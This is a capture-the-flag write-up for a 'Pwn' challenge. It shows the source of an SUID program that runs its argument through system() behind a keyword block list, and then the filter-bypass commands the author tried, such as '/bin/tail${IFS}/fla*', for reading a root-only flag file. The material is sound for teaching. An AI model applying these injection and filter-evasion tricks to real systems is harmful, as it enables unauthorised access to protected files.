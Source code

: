 # Inject it Now!
- Category: Pwn
- Points: 200
- Captures: 23
## Challenge Description:
```We managed to get access to one of the GDC servers. We believe it stores some interesting information. Help us retrieve it.```

*(A netcat target was provided for us to access)*
## Solution:
### Tools used:
- `cat, tail, ls, sh` - provided on the netcat server


After successfully connecting to the server, we are greeted in an `sh` instance, where running `ls` shows us the following:

``` sh
> ls -la
total 80
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 .
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 ..
-rwxr-x--- 1 0 1000   220 Aug 31  2015 .bash_logout
-rwxr-x--- 1 0 1000  3771 Aug 31  2015 .bashrc
-rwxr-x--- 1 0 1000   655 Jul 12  2019 .profile
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 bin
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 dev
-r-------- 1 0 1000    31 Jun  1 04:49 flag
-rwsr-x--x 1 0    0 16960 Jun  1 12:25 gdc_exec
-rwxr-x--- 1 0 1000   621 Jun  1 12:24 gdc_exec.c
-rwxr-x--- 1 0 1000  8648 Jun 11 06:52 helloworld
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib32
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib64 
```
We can see that there are a few files that seems out of the ordinary for a typical linux root directory, like:
- `flag` (That's what we're after!)
- `gdc_exec`
- `gdc_exec.c`
- `helloworld`

More importantly, we see that flag has read-only permissions for the file owner, or permission scope `400`. This means that only the owner (root) is able to read from this file! 

As expected, when we try to `cat` the file directly, we are faced with a permissions issue as seen below:

![](./cantcatflag.png)

*much sadness*

Let's take a look at some of the other files. In particular, there is a `gdc_exec.c`, and a `gdc_exec` file which seems to be a compiled binary of the c file. Furthermore, we notice that the `gdc_exec` binary has the SUID bit set. For more information on SUID bits, [this is a pretty interesting article.](https://www.thegeekdiary.com/what-is-suid-sgid-and-sticky-bit/), but this basically means that the `gdc_exec` binary will run with the owner's permissions instead of yours (and since both `flag` and `gdc_exec` are owned by the UID 0, `gdc_exec` can read `flag`)

When we take a look at the c file, we see the following (I have helpfully included comments to explain what this does):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int check_cmd(char* command) // This function filters out words like "flag, sh" and the like to make your life harder
{
    int ret = 0;

    for (int i = 0; command[i] != '\0'; i++)
    {
        if (command[i] == ' ') ret++;
    }

    ret += strstr(command, "flag")!=0; // Filters out "flag"
    ret += strstr(command, "sh")!=0; // Filters out "sh"
    ret += strstr(command, "s\\h")!=0; // Filters out "s\\h"
    ret += strstr(command, "tmp")!=0; // Filters out "tmp"
    ret += strstr(command, "cat")!=0; // Filters out "cat"

    return ret; // Returns the value of ret. If any of the keywords have been detected, it returns a non-zero value which will cause the program to terminate
}


int main(int argc, char* argv[], char** envp)
{
    if (argc < 2) return 0;  // Stops the program if there are no arguments added after calling the program 
    if (check_cmd(argv[1])) return 0; // Stops the program if check_cmd returns any value other than 0 - this checks the first argument given to the program

    setreuid(geteuid(), geteuid()); 

    putenv("PATH=/whereami"); // Sets a PATH to a random location - this means that we need to manually tell the program our binary executable location
    chdir("/tmp");

    system(argv[1]); // Executes the first appended argument

    return 0;
}
```
So it seems like this program prevents us from using simply `cat`-ing the flag or popping a root shell for us to use, which means we need to get creative. A quick peek into `/bin/` shows us what other executables are available for us to use:

```sh
> ls /bin
cat
ls
sh
tail
echo
```

`tail`! We can use that to read our flag file, which presumably is only 1 line long. This solves the first issue of using a different command to read the flag. However, we still have 2 issues to face, namely:

1. Actually providing the flag as an argument to `tail`
2. Providing both `tail` and `flag` as an argument without any spaces (Remember that the program only executes the first argument!)

Well, the solution to the first issue is simple. Just use a wildcard substitution like `/fla*`! However, from here on out, it was a journey filled with pain and suffering as I attempted many ways of sending my command as an argument that would not be picked up by the `check_cmd` function while maintaining the 1 argument route. Some commands I tried included:

- `./gdc_exec /bin/tail</fla*` This did not work as wildcards and STDIN redirection did not play well
- `./gdc_exec /bin/tail${IFS}/fla*`
- `./gdc_exec /bin/tail${IFS}$* /fla*`
- Many others that I cannot remember 2 weeks after the CTF

Some notes:
- `${IFS}` represents a space when processed by the shell - having this around 
- The `gdc_exec` binary sets a PATH location to a seemingly non-existant location, so we need to manually specify where our tail binary is
- The `$*` command parses all other arguments into the first command

Finally, after a dinner break, I stumbled upon the winning ~~formula~~ command:

![](./wowgotflag.png)

:tada: Flag found!!
## Flag:
```CDDC21{You_Wi11_n3ver_st0p_u$}```